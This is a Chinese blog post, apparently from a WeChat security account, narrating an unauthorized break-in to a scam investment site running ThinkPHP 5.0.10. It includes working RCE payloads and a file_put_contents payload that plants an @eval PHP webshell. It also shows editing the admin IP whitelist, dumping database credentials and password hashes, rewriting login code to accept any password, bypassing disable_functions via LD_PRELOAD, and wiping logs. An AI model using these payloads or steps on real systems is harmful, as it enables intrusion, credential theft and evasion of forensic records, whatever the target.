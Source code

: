 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/utqGvCTEFS3hQ_GttWHVNw)
| 

**声明：**该公众号大部分文章来自作者日常学习笔记，也有少部分文章是经过原作者授权和其他公众号白名单转载，未经授权，严禁转载，如需转载，联系开白。

请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关。

 |

当前浏览器不支持播放音乐或语音，请在微信或其他浏览器中播放 夜空的寂静 赵海洋 - 夜色钢琴曲 ![](http://res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/icon/appmsg/qqmusic/icon_qqmusic_source531a3f.svg)   ![](https://y.gtimg.cn/music/photo_new/T002R90x90M000001ExeaG1J1EfG.jpg)

**0x01 前言**

今天微信群里一女装大佬给我私发了一个杀猪盘，说她朋友在这个平台上被骗了 4W+，现在还有这么好骗的人吗？能不能先给我来一打！！！

因为当时不确定能不能搞下来就没回她信息（其实已经在看了），不确定的事情不敢轻易去答应别人，万一搞不下来就 “尴尬” 了！  

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdib6Na8wGlWcoWRsJftZ1hmJhtVzxbb4TyfqeicwzcdvtnSvn91ucgjNIsXzYwo2WQ0jM9PKaT24Kg/640?wx_fmt=png)

**年关将至，各类 “杀猪盘” 又开始冒****出来了，谨防网络诈骗、**谨防网络诈骗**、**谨防网络诈骗**！！！**

随便注册了个用户进去看了下，界面大致如下，应该属于投资理财类杀猪盘，就是通过各种诱导方式让受害者去他们的平台理财。

比如说什么稳赚不赔，赔了自掏腰包赔偿等等，有的受害者就会先小额充值试试，前期肯定会让你赚（后台控制），也能提现，等你大额充值时他们就开始 “杀猪” 了。  

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdib6Na8wGlWcoWRsJftZ1hmBGE5NHWuZnPP8kbGmzFUUQcZiakYsUCCWicfEW0O0RS4bvbyZxMqRU2A/640?wx_fmt=png)

**0x02 ThinkPHP Getshell**

她发过来的是个二维码，通过识别这个二维码得到要测试的目标网址，原打算通过大小写来简单判断目标系统的，结果发现输入一个不存在的路径则报错了，通过报错信息得知这套程序为`ThinkPHP V5.0.10`框架，这个版本存在有 RCE 漏洞。

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdib6Na8wGlWcoWRsJftZ1hmAdH3VQiaULuEibZbGjBDpCLLRZPI3sw2bR4fPoTHA5WwV9FRyZrSnRMQ/640?wx_fmt=png)

通过 @Y4er 老哥博客中找到 ThinkPHP V5.0.10 这个版本的可用 Payload 如下，Thinkphp5 RCE 总结：https://y4er.com/post/thinkphp5-rce/。

```
http://php.local/thinkphp5.0.5/public/index.php?s=index
post
_method=__construct&method=get&filter[]=call_user_func&get[]=phpinfo
_method=__construct&filter[]=system&method=GET&get[]=whoami

# ThinkPHP <= 5.0.13
POST /?s=index/index
s=phpinfo()&_method=__construct&method=&filter[]=assert
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdib6Na8wGlWcoWRsJftZ1hm6C5gqrxZneQ8oxicRGRGzxZyv92AXMmqH1ibrpQrQ4vFbSlxMjicefDVA/640?wx_fmt=png)

不过在测试中发现`exec()、passthru()、system()、shell_exec()`等命令执行函数被限制了，猜测应该是用宝塔搭建的，默认就禁止了这些常见危险函数，所以暂时没办法直接反弹 shell。

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdib6Na8wGlWcoWRsJftZ1hmNzicyIakbiaMac96uicJvnQdWrxSJOCoetc7Yib47eQeFw8Tsrlwy9lSmw/640?wx_fmt=png)

既然这样，那么我们就先进行 Getshell，通过执行以下 Payload 写入 PHP 一句话木马，提示：`Use of undefined constant __construct - assumed '__construct'`，但其实文件已经写进去了。

```
s=file_put_contents('1.php','<?php @eval($_POST[cmd]);')&_method=__construct&method=&filter[]=assert
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdib6Na8wGlWcoWRsJftZ1hmDwPWsCbQuZ1BP8aTSXYwJhqDTLCic26bm7KHE46e9fdxkt5dEJ0N4eQ/640?wx_fmt=png)

如果在使用中国菜刀连接时出现 “链接被重置” 或“超时”等情况，这时我们可以先在 POST 下验证这个一句话木马是否正常，只要能够获取 phpinfo 基本就没问题了，或者换几个代理节点试试。

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdib6Na8wGlWcoWRsJftZ1hmicjNwXuuoVvT1m5HdjfdFsn9j6Rb5Gf9A4icowvibuDzarb6y6yU5CZfQ/640?wx_fmt=png)

**0x03 后台白名单 IP 限制**

访问后台地址时出现：`非法IP访问：58.**.***.122`，原以为管理员是通过`X-``Forwarded-For`或`User-Agent`来限制访问后台的，但在经过测试后发现都不是的，后台这里卡了我好一阵！

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdib6Na8wGlWcoWRsJftZ1hmODwSW4gBJVoCvN5VqmpaYkfGt8BvNmrWw1C3rPXU919XzEB45VhNPQ/640?wx_fmt=png)

最终我们在 config.php 文件中发现是以白名单的方式来限制我们访问后台的，大致看了下管理员设置的白名单 IP 地址（香港、越南、菲律宾、法国），基本可以确定为代理，通过 Web 日志文件确定确实如此，所以这里我们只需要将我们本地 / 代理 IP 地址添加进去后即可访问后台。

```
// 默认模块名
'default_module'         => 'home',
// 禁止访问模块
'deny_module_list'       => ['common'],
//设置某些IP可以访问模块
'allow_module_ip'        =>['admin' => ['103.209.102.145','130.105.248.4','43.243.95.241','175.176.8.174','118.143.235.124','43.243.95.249','130.105.179.66','108.162.229.68','43.243.95.204','103.19.165.6','175.158.200.177','175.176.15.145','210.4.101.2','203.177.230.194','45.119.203.90']],
// 默认控制器名
'default_controller'     => 'Index',
// 默认操作名
'default_action'         => 'index',
// 默认验证器
'default_validate'       => '',
// 默认的空控制器名
'empty_controller'       => 'Error',
// 操作方法后缀
'action_suffix'          => '',
// 自动搜索控制器
'controller_auto_search' => false,
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdib6Na8wGlWcoWRsJftZ1hmIsRKXiaGvXsbbqRxVd97FFwicVVdm9HY5ibTicReKPYWmhtC138XXy5DEQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdib6Na8wGlWcoWRsJftZ1hmpqk9mB8WQGZgT3htTRlJnKaudic6ylKJqNTPmIn4ia3Oic5NzZfXJQIyA/640?wx_fmt=png)

接着我们在 / www/wwwroot/aljex/config/database.php 文件中找到当前数据库用户密码，因为这个网站是由宝塔搭建的，所以密码都是随机生成的。

```
// 数据库类型
'type'            => 'mysql',
// 服务器地址
'hostname'        => "127.0.0.1",
// 数据库名
'database'        => "alj",
// 用户名
'username'        => "alj",
// 密码
'password'        =>"wM5t4T***iTX32Mi",
// 端口
'hostport'        => "3306",
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdib6Na8wGlWcoWRsJftZ1hmWCSFok35bic41B4psKzia8ObicTNpjMhaFQgUUcgtwup7W78vjTDA5F6w/640?wx_fmt=png)

使用刚找到的数据库用户密码在中国菜刀或 phpmyadmin 连接到`alj`数据库，然后在`dl_user`表中找到网站后台管理员的用户密码，加密方式为 MD5，但是都解密不了。

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdib6Na8wGlWcoWRsJftZ1hmBe7kQRFbtn5iaicGwHcLxfTgv11cganI9GDiaFaz5gEGsK01ol6c29gVw/640?wx_fmt=png)

**注：**前边我在 database.php 文件中没有注意看数据库表前缀，一眼看去以为`txzh_admin`是管理员表，还一直在找它的解密方式，经朋友 @久久久提醒才发现找错管理员表了，在这个表中可以看到`admin`是被 “别人” 改过的。

```
agent  |  $2y$10$b5bRaCojDtS4j6moFTSUv.t/bESHmsreyK7IDEBud.q9k1XvbfMQm
user   |  $2y$10$eA5sl1MzHc5H3aZHkEWur.DDiKDKJw6YAC/C8SyXmh4868rzZketu
admin  |  e10adc3949ba59abbe56e057f20f883e
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdib6Na8wGlWcoWRsJftZ1hmNLNvibqr2J9ZyVBtkpXggHETtsJ7fqheTzGqbX9D0ic0GKO9Ps0lgpEg/640?wx_fmt=png)

目前管理员密文无法解密，那么又该如何进入后台呢？这里有两个思路，1、直接替换管理员的 MD5 密文，2、修改 User.php 文件中的检验登入代码，将判断密码中`!`删掉即可，输入用户`admin`，密码随意就可以直接登录后台了。

**/www/wwwroot/aljex/app/admin/model/User.php：**

```
//检验登入
    public function checkLogin($username,$password){
        $rs = $this->get(['username' => $username]);

        session('info',$rs);
        if(!$rs){
            $this->error='用户不存在或已被禁用！';
            return false;
        }else{
            if($rs['password']!== md5($password)){
                $this->error='用户名或密码错误！';
                return true;
            }
        }
        ...SNIP...
    }
```

**/www/wwwroot/aljex/app/admin/controller/Login.php：**

```
public function login(Request $request)
{
        $username= $request->post('username');//获取用户名
        $password= $request->post('password');//获取密码
        $user = new User();
        //验证登入
        if(!$user->checkLogin($username,$password)){
            $this->error($user->getError());

        }
        //记录日志
        $operation_obj = new \Net\Operation();
        $operation_obj->writeLog();

        $this->success('登录成功！', url('Index/index'));
    }
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdib6Na8wGlWcoWRsJftZ1hmy5bzB1dWU3ibaHJwDRUFRRthZG1I938KqzVWuiasQ1QxO8Yd7bOiaUStA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdib6Na8wGlWcoWRsJftZ1hmQDh5mibicxfCuicNtic56WYOTdd422Bp9Eibx9plwUZE8vISAtRJjqoUEEw/640?wx_fmt=png)

**0x04 绕过 disable_functions**

宝塔默认限制了以下危险函数，这里我们可以尝试使用以下 3 个项目来绕过，由于 putenv() 函数没有被限制，所以最终可以通过`LD_PRELOAD & putenv()`绕过 disable_functions 执行系统命令。

*   https://github.com/mm0r1/exploits/
    
*   https://github.com/l3m0n/Bypass_Disable_functions_Shell
    
*   https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD
    

```
passthru,exec,system,chroot,chgrp,chown,shell_exec,popen,proc_open,ini_alter,ini_restore,dl,openlog,syslog,readlink,symlink,popepassthru,pcntl_alarm,pcntl_waitpid,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_getpriority,pcntl_setpriority,imap_open,apache_setenv
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdib6Na8wGlWcoWRsJftZ1hmibW8kEG1bFFPEDUsdUicoTEEibSAhM0jLRWEhKvt1GsITvoB9PBwQ12yA/640?wx_fmt=png)

能执行系统命令后就可以继续进行后续提权、打包程序和数据了，由于个人技术水平有限，对 Linux 提权不太熟悉，对这类程序数据也没啥兴趣，简单清理了下日志信息，所以也就到此结束了吧！

只需在公众号回复 “9527” 即可领取一套 HTB 靶场学习文档和视频，“1120” 领取安全参考等安全杂志 PDF 电子版，“1208” 领取一份常用高效爆破字典，还在等什么？

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfSyD5Wo2fTiaYRzt5iaWg1GJk2Cx54PBIoc0Ia3z1yIfeyfUV61mn3skB5bGP3QHicHudVjMEGhqH4A/640?wx_fmt=png)